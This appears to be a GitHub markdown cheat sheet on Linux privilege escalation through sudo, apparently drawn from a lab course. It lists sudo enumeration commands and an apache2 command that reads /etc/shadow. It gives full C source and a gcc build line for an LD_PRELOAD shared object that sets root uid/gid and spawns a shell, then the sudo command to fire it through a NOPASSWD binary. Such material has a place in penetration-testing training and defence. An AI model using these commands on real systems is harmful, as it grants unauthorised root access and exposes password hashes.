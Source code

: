 ## Sudo Enumeration 
    
     sudo -l
     sudo --version
     sudo apache2 -f /etc/shadow
                 
                 
## Sudo resource		 
   
   https://gtfobins.github.io/
   
### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

## And Type Command 
   
      sudo -l
   
## And Output 

        Matching Defaults entries for TCM on this host:
        env_reset, env_keep+=LD_PRELOAD

      User TCM may run the following commands on this host:
           (root) NOPASSWD: /usr/sbin/iftop
           (root) NOPASSWD: /usr/bin/find
           (root) NOPASSWD: /usr/bin/nano
           (root) NOPASSWD: /usr/bin/vim
           (root) NOPASSWD: /usr/bin/man
           (root) NOPASSWD: /usr/bin/awk
           (root) NOPASSWD: /usr/bin/less
           (root) NOPASSWD: /usr/bin/ftp
           (root) NOPASSWD: /usr/bin/nmap
           (root) NOPASSWD: /usr/sbin/apache2
           (root) NOPASSWD: /bin/more

Execute any binary with the LD_PRELOAD to spawn a shell : 
          `sudo LD_PRELOAD=<full_path_to_so_file> <and Type NOPASSWD program name just vim,nano,apache2,ftp,find etc >`
	  , e.g: `sudo LD_PRELOAD=/tmp/shell.so find`




